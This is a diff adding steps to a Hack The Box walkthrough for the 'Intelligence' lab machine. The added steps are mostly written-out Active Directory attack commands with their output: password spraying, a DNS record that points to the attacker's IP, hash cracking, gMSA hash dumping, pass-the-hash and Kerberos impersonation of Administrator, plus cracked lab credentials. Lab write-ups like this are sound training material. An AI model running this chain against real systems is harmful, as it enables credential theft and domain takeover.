

Before and after one commit to r1skkam/HackTheBox-Walkthroughs, a Markdown page: After failed OSCP/Intelligence/README.md, 3 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/After failed OSCP/Intelligence/README.md
+++ b/After failed OSCP/Intelligence/README.md
@@ -120,3 +120,36 @@ After logging in please change your password as soon as possible.
 ```
 
 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/42ab4edf-6c22-4b70-bf28-d22f54c5d710)
+
+```
+./kerbrute_linux_amd64 passwordspray --dc 10.129.95.154 -d intelligence.htb users-unique.txt 'NewIntelligenceCorpUser9876'
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/76cffb30-94b9-40bf-9055-f699b78b7037)
+
+```
+crackmapexec smb 10.129.95.154 -u users-unique.txt -p 'NewIntelligenceCorpUser9876'
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0a9c597d-4152-470c-aecb-abcf11f25f2e)
+
+```
+SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
+```
+
+```
+smbmap -H 10.129.95.154 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/291f7fa0-4c88-434f-8571-fc7ef78b1ca7)
+
+```
+smbclient //10.129.95.154/IT/ -U 'Tiffany.Molina'
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2ca3353d-d947-48e0-831c-c5f3f76a70e9)
+
+```
+6c4e5ff4e291d560ff734a6f9e7bc5b2
+```
+
@@ -122,0 +186,14 @@ After logging in please change your password as soon as possible.
+```
+python dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.129.95.154 -a add -r web1 -d 10.10.16.22 -t A
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d497c34c-fcda-4439-aad0-262f50ab33e5)
+
+```
+pip install kerberos
+```
+
+```
+git clone https://github.com/dirkjanm/krbrelayx.git
+```
+
@@ -122,0 +214,42 @@ After logging in please change your password as soon as possible.
+```
+john --wordlist=/usr/share/wordlists/rockyou.txt Ted.Graves.hash
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4dad7fb5-e97e-453e-b6fb-c0ceb5222e5a)
+
+```
+Mr.Teddy         (Ted.Graves)
+```
+
+```
+bloodhound-python -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -ns 10.129.95.154 -c all
+```
+
+```
+crackmapexec ldap 10.129.95.154 -u 'Ted.Graves' -p 'Mr.Teddy' --gmsa
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c2bd2479-1e3b-4d19-8d80-fc1eb36c1f9b)
+
+```
+LDAP        10.129.95.154   636    DC               Account: svc_int$             NTLM: 5ecbb8825fa84b3154a7f12336795ed4
+```
+
+```
+evil-winrm -i 10.129.95.154 -u svc_int$ -H 5ecbb8825fa84b3154a7f12336795ed4
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a26d5dd4-e2cc-4e3d-a5e1-bcec6546f864)
+
+```
+impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes 5ecbb8825fa84b3154a7f12336795ed4:5ecbb8825fa84b3154a7f12336795ed4
+```
+
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7b3a8269-e22d-430f-8283-2e68efff1004)
+
+Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
+
+```
+export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
+```
+
````
Also changed, not shown: other parts of After failed OSCP/Intelligence/README.md (+65 -0 lines).
